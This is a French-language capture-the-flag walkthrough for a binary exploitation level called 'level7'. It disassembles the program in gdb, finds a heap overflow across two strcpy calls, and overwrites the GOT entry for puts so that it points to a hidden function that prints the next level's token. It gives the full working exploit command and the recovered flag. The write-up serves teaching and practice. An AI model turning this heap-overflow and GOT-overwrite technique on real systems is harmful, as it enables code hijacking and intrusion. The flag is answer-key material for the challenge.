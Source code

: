 # Level7

On observe un exécutable à la racine : `level7`

```shell
$ ./level7
Segmentation fault (core dumped)

$ ./level7 "Hello World"
Segmentation fault (core dumped)

$ ./level7 "Hello" "World"
~~
```

On cherche donc à comprendre ce que fait l'exécutable

```shell
$ gdb level7 -q
Reading symbols from /home/user/level7/level7...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>:      push   ebp
   0x08048522 <+1>:      mov    ebp,esp
   0x08048524 <+3>:      and    esp,0xfffffff0
   0x08048527 <+6>:      sub    esp,0x20
   0x0804852a <+9>:      mov    DWORD PTR [esp],0x8
   0x08048531 <+16>:     call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:     mov    DWORD PTR [esp+0x1c],eax
   0x0804853a <+25>:     mov    eax,DWORD PTR [esp+0x1c]
   0x0804853e <+29>:     mov    DWORD PTR [eax],0x1
   0x08048544 <+35>:     mov    DWORD PTR [esp],0x8
   0x0804854b <+42>:     call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:     mov    edx,eax
   0x08048552 <+49>:     mov    eax,DWORD PTR [esp+0x1c]
   0x08048556 <+53>:     mov    DWORD PTR [eax+0x4],edx
   0x08048559 <+56>:     mov    DWORD PTR [esp],0x8
   0x08048560 <+63>:     call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:     mov    DWORD PTR [esp+0x18],eax
   0x08048569 <+72>:     mov    eax,DWORD PTR [esp+0x18]
   0x0804856d <+76>:     mov    DWORD PTR [eax],0x2
   0x08048573 <+82>:     mov    DWORD PTR [esp],0x8
   0x0804857a <+89>:     call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:     mov    edx,eax
   0x08048581 <+96>:     mov    eax,DWORD PTR [esp+0x18]
   0x08048585 <+100>:    mov    DWORD PTR [eax+0x4],edx
   0x08048588 <+103>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804858b <+106>:    add    eax,0x4
   0x0804858e <+109>:    mov    eax,DWORD PTR [eax]
   0x08048590 <+111>:    mov    edx,eax
   0x08048592 <+113>:    mov    eax,DWORD PTR [esp+0x1c]
   0x08048596 <+117>:    mov    eax,DWORD PTR [eax+0x4]
   0x08048599 <+120>:    mov    DWORD PTR [esp+0x4],edx
   0x0804859d <+124>:    mov    DWORD PTR [esp],eax
   0x080485a0 <+127>:    call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080485a8 <+135>:    add    eax,0x8
   0x080485ab <+138>:    mov    eax,DWORD PTR [eax]
   0x080485ad <+140>:    mov    edx,eax
   0x080485af <+142>:    mov    eax,DWORD PTR [esp+0x18]
   0x080485b3 <+146>:    mov    eax,DWORD PTR [eax+0x4]
   0x080485b6 <+149>:    mov    DWORD PTR [esp+0x4],edx
   0x080485ba <+153>:    mov    DWORD PTR [esp],eax
   0x080485bd <+156>:    call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:    mov    edx,0x80486e9
   0x080485c7 <+166>:    mov    eax,0x80486eb
   0x080485cc <+171>:    mov    DWORD PTR [esp+0x4],edx
   0x080485d0 <+175>:    mov    DWORD PTR [esp],eax
   0x080485d3 <+178>:    call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:    mov    DWORD PTR [esp+0x8],eax
   0x080485dc <+187>:    mov    DWORD PTR [esp+0x4],0x44
   0x080485e4 <+195>:    mov    DWORD PTR [esp],0x8049960
   0x080485eb <+202>:    call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:    mov    DWORD PTR [esp],0x8048703
   0x080485f7 <+214>:    call   0x8048400 <puts@plt>
   0x080485fc <+219>:    mov    eax,0x0
   0x08048601 <+224>:    leave
   0x08048602 <+225>:    ret
End of assembler dump.
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:      push   ebp
   0x080484f5 <+1>:      mov    ebp,esp
   0x080484f7 <+3>:      sub    esp,0x18
   0x080484fa <+6>:      mov    DWORD PTR [esp],0x0
   0x08048501 <+13>:     call   0x80483d0 <time@plt>
   0x08048506 <+18>:     mov    edx,0x80486e0
   0x0804850b <+23>:     mov    DWORD PTR [esp+0x8],eax
   0x0804850f <+27>:     mov    DWORD PTR [esp+0x4],0x8049960
   0x08048517 <+35>:     mov    DWORD PTR [esp],edx
   0x0804851a <+38>:     call   0x80483b0 <printf@plt>
   0x0804851f <+43>:     leave
   0x08048520 <+44>:     ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir une idée plus claire de `level7`

```shell
$ scp -P 4242 -r level7@192.168.56.102:/home/user/level7/level7 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level7
```

_résultat sauvegardé dans [source.md](source.md)_

On voit dans le main que le fichier contenant le token du niveau suivant est lu et stocké dans la variable `c`. On voit également une fonction `m`, non appelée qui va afficher le contenu de la variable `c`.

On cherche donc faire pointer la fonction `puts` vers la fonction `m`, en modifiant la `GOT`

Pour cela, nous nous servons du premier `strcpy` pour modifier l'adresse
d'écriture du second `strcpy` vers le `puts` qui est à l'adresse `0x8049928`, et ensuite nous allons modifier
la valeur à cette adresse pour pointer vers la fonction `m`.

```shell
(gdb) break *main+21
Breakpoint 1 at 0x8048536
(gdb) break *main+68
Breakpoint 2 at 0x8048565
(gdb) run "hello"
Starting program: /home/user/level7/level7 "hello"

Breakpoint 1, 0x08048536 in main ()
(gdb) i r eax
eax            0x804a008	134520840

Breakpoint 2, 0x08048565 in main ()
(gdb) i r eax
eax            0x804a028	134520872
```

<code>0x804a028 - 0x804a008 = 20<sub>16</sub></code>

Nous avons notre premier paramètre `python -c 'print ("A"*20) + "\x28\x99\x04\x08"'`

Notre deuxième paramètre est l'adresse de la fonction `m` `\xf4\x84\x04\x08`

Plus qu'à regrouper toute nos string et à essayer

```shell
$ ./level7 `python -c 'print ("A"*20) + "\x28\x99\x04\x08"'` `python -c 'print "\xf4\x84\x04\x08"'`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1670340479
```
